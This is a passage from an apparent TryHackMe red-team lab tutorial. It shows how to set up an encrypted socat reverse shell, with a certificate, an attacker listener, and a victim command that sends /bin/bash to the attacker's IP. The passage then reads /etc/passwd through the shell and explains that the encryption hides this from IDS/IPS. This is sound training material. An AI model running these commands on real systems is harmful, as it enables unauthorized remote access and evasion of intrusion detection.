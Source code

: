- `-d -d`Â provides some debugging data (fatal, error, warning, and notice messages)
- `OPENSSL-LISTEN:PORT_NUM`Â indicates that the connection will be encrypted using OPENSSL
- `cert=PEM_FILE`Â provides the PEM file (certificate and private key) to establish the encrypted connection
- `verify=0`Â disables checking peerâ€™s certificate
- `fork`Â creates a sub-process to handle each new connection.

**Thirdly**, on the victim system,Â `socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash`. Note that theÂ `EXEC`Â invokes the specified program.

Letâ€™s demonstrate this. On the attacker system, we carried out the following:

Pentester Terminal

```shell-session
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443
```

As we have a listener on the attacker system, we switched to the victim machine, and we executed the following:

Target Terminal

```shell-session
pentester@target$ socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

Back to the attacker system, letâ€™s runÂ `cat /etc/passwd`:

Pentester Terminal

```shell-session
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
```

However, if theÂ IDS/IPSÂ inspects the traffic, all the packet data will be encrypted. In other words, theÂ IPSÂ will be completely oblivious to exchange traffic and commands such asÂ `cat /etc/passwd`. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet containsÂ `cat /etc/passwd`; however, it is encrypted.
